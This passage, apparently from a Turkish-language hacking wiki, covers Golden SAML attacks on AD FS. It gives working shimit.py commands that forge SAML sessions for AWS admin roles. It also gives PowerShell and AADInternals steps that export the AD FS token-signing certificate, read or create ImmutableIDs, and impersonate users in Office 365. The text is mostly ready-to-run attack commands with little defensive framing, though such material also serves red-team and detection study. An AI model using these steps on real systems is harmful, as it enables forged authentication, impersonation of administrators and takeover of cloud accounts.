 {% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### Yerel -> bulut
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Aynı zamanda yalnızca bulut kullanıcılarının ImmutableID'sini oluşturmak ve onları taklit etmek de mümkündür.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```